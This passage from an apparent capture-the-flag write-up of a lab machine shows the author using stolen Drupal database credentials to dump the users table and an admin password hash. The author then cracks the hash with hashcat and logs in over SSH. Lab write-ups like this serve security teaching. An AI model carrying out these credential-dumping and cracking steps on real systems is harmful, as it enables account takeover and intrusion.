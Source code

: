 

Everything else looks default.

#### Database

Because my shell is a not in a PTY, I'll have to run DB commands from
the command line. Drupal creates a bunch of tables:



    bash-4.2$ mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    Tables_in_drupal
    actions
    authmap
    batch
    block
    ...[snip]...
    users
    users_roles
    variable
    watchdog



I'm immediately interested in `users`.



    bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
    0                                               NULL    0       0       0       0       NULL            0               NULL
    1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered.md   1606998756      1607077194      1607076276      1       Europe/London              0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}



There's a hash for brucetherealadmin.

### Hashcat

That hash matches the format for Drupal 7 on the [example hashes
page](https://hashcat.net/wiki/doku.php?id=example_hashes). Hashcat will
crack it pretty quickly with
`hashcat -m 7900 brucetherealadmin-hash /usr/share/wordlists/rockyou.txt`
to find the password "booboo".

### SSH

This password works for SSH access:



    oxdf@parrot$ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
    Warning: Permanently added '10.10.10.233' (ECDSA) to the list of known hosts.
    Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.7
    [brucetherealadmin@armageddon ~]$ 
